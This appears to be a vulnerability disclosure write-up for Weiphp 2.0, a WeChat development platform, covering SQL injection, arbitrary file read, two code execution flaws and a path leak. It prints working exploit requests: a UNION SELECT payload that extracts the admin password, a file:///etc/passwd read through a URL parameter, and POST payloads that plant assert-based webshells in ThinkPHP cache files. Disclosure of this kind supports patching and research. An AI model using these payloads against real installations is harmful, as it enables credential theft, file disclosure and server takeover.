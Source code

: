 ###WEIPHP Multiple Vulnerability

####General description：

Weiphp is an open source, efficient and concise WeChat development platform.

**[1]Weiphp 2.0 YouaskService plug-in has a SQL injection vulnerability. Remote unauthorized attackers can exploit vulnerabilities to obtain database sensitive information.**

**[2]Weiphp 2.0 has an arbitrary file read vulnerability. Remote unauthorized attackers can use this vulnerability to read arbitrary files in the system.**

**[3]Weiphp 2.0 has a code execution vulnerability.Remote unauthorized attackers can use this vulnerability to gain control of the server.**

**[4]Weiphp 2.0 has a code execution vulnerability.Remote background admin privilege user can use this vulnerability to gain control of the server.**

**[5]Weiphp 2.0 has web site physical path leakage vulnerability.**

_ _ _

**Environment: **
apache/php 7.0.12/weiphp 2.0.1202


_ _ _

**[1]**

YouaskService is the default plug-in service of the system.

In the ajaxMain function of the \Addons\YouaskService\Controller\IndexController.class.php file:

![1.png](./img/1.png)

Line 138 gets the time variable submitted by post.

Line 144 splices the time variable into the SQL variable.

Line 152 passes SQL variables into where variables, and line 153 queries the database.

The injection is caused by the use of splicing, and line 154 displays the queried data.

Post requests the following data:
```
POST /index.php?s=addon/YouaskService/index/ajaxMain HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Content-Length: 161
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1/index.php?s=/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie:

time=1) and 1=2 union select 1,2,3,(select username from wp_ucenter_member where id=1),(select password from wp_ucenter_member where id=1),6,7,8,9,10#&opened=aaa
```

![2.png](./img/2.png)

Obtained the admin's password through the SQL injection vulnerability.

**[2]**

In the showExternalPic function of \Addons\YouaskService\Controller\IndexController.class.php:

![3.png](./img/3.png)

Line 238 gets the data to be requested through the url variable.

Line 248 requests data via php's curl protocol.

request ```view-source:http://127.0.0.1/index.php?s=/addon/YouaskService/index/showExternalPic/wecha_id/1/token/2/&url=file:///etc/passwd```

Through the vulnerability we read the contents of /etc/passwd:

![5.png](./img/5.png)

**[3]**

In the param function of \Addons\Diy\Controller\DiyController.class.php:

![6.png](./img/6.png)

Line 106 will cache the contents into the file via the S function of thinkphp.

When submitting the page_id parameter value is 1

The file name is md5(diy_1),/Runtime/Temp/1dd633b3128a336438a6a99b6b18980e.php

![7.png](./img/7.png)

And because there is no restriction on the input data, the executable code can be inserted by line break, resulting in code execution.

Post requests the following data:
```
POST /index.php?s=/addon/Diy/Diy/param HTTP/1.1
Host: 127.0.0.1
Proxy-Connection: keep-alive
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1/
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1:8005/index.php?s=/Home/User/register.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie:

page_id=1&preview=0&widget_id=%0a%0d@assert($_POST['fucktom']);/*
```

![8.png](./img/8.png)

The webshell is:```/Runtime/Temp/1dd633b3128a336438a6a99b6b18980e.php```.

**[4]**

In the save function of \Application\Admin\Controller\ConfigController.class.php:

![9.png](./img/9.png)

Line 126 will cache the contents into the file via the S function of thinkphp.

The file name is md5('DB_CONFIG_DATA'),/Runtime/Temp/95a1fe934b68ebfee8468bf0bc4f0000.php

And because there is no restriction on the input data, the executable code can be inserted by line break, resulting in code execution.

Log in to the background with admin privileges
Enter the following and submit:
```
Home/User/*
assert($_POST['fucktom']);/*
home/weixin/*
admin/File/*
home/File/*
home/Forum/*
```

![10.png](./img/10.png)

The webshell is:```/Runtime/Temp/95a1fe934b68ebfee8468bf0bc4f0000.php```.

**[5]**

Request ```/index.php?s=/home/test/jiamiFile``` to generate test2.php in the root directory
Visit test2.php:

![4.png](./img/4.png)
